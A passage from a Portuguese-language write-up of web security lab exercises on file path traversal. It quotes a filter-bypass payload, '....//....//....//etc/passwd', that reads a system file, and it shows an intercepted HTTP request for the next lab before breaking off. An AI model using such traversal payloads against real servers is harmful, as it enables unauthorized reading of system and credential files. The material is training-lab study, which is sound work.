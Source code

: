 Note que na requisição acima estamos usando `"....//....//....//etc/passwd"`, dessa forma o servidor não remove a sequência de path traversal e conseguimos acessar o arquivo `"/etc/passwd"`.

E assim o laboratório é concluído.

![concluido](sequences_concluido.png)

---

## **• File path traversal, validation of start of path.**

Nesse laboratório, ao interceptar a requisição da imagem vemos que o servidor está buscando o arquivo na pasta `"/var/www/images/"`.

``` http

GET /image?filename=/var/www/images/50.jpg HTTP/1.1
Host: 0abe00870435076ac25d987f00690021.web-security-academy.net
Cookie: session=XNgEjrO0tg7GVQxxc2b7RxxH0F1HCrvq
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: image/avif,image/webp,*/*
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0abe00870435076ac25d987f00690021.web-security-academy.net/product?productId=3
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

```

Então precisamos voltar as pastas até chegar na raiz para poder acessar o arquivo `"/etc/passwd"`.

Para isso, usaremos a seguinte requisição:

**Request** | **Response** 
:---------: | :------:
